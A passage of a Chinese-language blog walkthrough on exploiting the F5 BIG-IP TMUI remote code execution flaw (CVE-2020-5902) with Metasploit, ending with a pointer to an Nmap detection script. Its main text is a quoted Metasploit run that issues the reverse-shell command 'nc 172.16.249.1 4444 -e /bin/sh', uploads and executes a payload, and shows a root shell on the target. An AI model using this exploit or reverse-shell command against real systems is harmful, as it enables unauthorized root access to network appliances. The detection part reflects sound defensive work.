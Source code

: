 ![](https://mmbiz.qpic.cn/mmbiz_jpg/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHLeDEH9H5VOsEuJ2UQqCu6DIGNCX5VP9a1USj9vWKvZS1kayOyW81GA/640?wx_fmt=jpeg "")  
  
之后启动MSF并通过'reload_all'指令来重新加载MSF的modules，之后  
搜索f5_bigip你会看到可用的载荷信息：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHLfZwE94xLJKkHogV7ZroiaokFqWXxUU0c6WaKqjrxyM5JqPO3xKbuOw/640?wx_fmt=jpeg "")  
  
下面以192.168.174.214为例做一次利用演示，首先设置相关的配置项参数：  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHPzbicBxb39MLyQlXJ75qibuDLKaibJwyFQxZsFttLV1ic94LsmqX6jV8AQ/640?wx_fmt=jpeg "")  
  
之后执行，很可惜，失败了，不知道是个人的环境原因还是什么问题(之前升级更新过msf)，后续查看过msf攻击脚本，感觉与环境依赖问题没多大关系，target也切换过UNix与Linux，但是也不行，之后也尝试过用admin用户先登录，结果依旧不行，不过，此路不通还有其他道路，使用python也挺好的~  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHMV5y70sRTSwJs5ViaxdfKBtjqBN9jMGjTpGSw7iaW5kyibMuYt66ELeyQ/640?wx_fmt=jpeg "")  
  
下面网上有关成功的人给出的执行结果：  
```
msf5 exploit(linux/http/f5_bigip_tmui_rce) > run

[+] nc 172.16.249.1 4444 -e /bin/sh
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target is running BIG-IP 14.1.2.
[*] Creating alias list=bash
[+] Successfully created alias list=bash
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[*] Executing command: nc 172.16.249.14444 -e /bin/sh
[*] Uploading /tmp/lxoQO9DPOSpDiF8rP5yNfc4dVo67qsckbdaNc3ES3
[+] Successfully uploaded /tmp/lxoQO9DPOSpDiF8rP5yNfc4dVo67qsckbdaNc3ES3
[*] Executing /tmp/lxoQO9DPOSpDiF8rP5yNfc4dVo67qsckbdaNc3ES3
[*] Command shell session 1 opened (172.16.249.1:4444 -> 172.16.249.176:44736) at 2020-07-0618:05:24-0500
[+] Deleted /tmp/lxoQO9DPOSpDiF8rP5yNfc4dVo67qsckbdaNc3ES3
[*] Deleting alias list=bash
[+] Successfully deleted alias list=bash

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:initrc_t:s0
uname -a
Linux localhost.localdomain 3.10.0-514.26.2.el7.ve.x86_64 #1 SMP Wed Aug 7 08:16:38 PDT 2019 x86_64 x86_64 x86_64 GNU/Linux
```  
  
Nmap检测  
  
  
脚本地址：  
  
https://raw.githubusercontent.com/RootUp/PersonalStuff/master/http-vuln-cve2020-5902.nse  
  
下载以上脚本，并将其放置到nmap的scrip目录下，我这里是：/usr/share/nmap/scripts/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUickksDia6CZqHmTcNL0BMNfuHfe1Osb1vero8gSuFVh8iar2hmaSsF0DEF8mPT3HHAKYcWcIbKILSvBA/640?wx_fmt=png "")  
  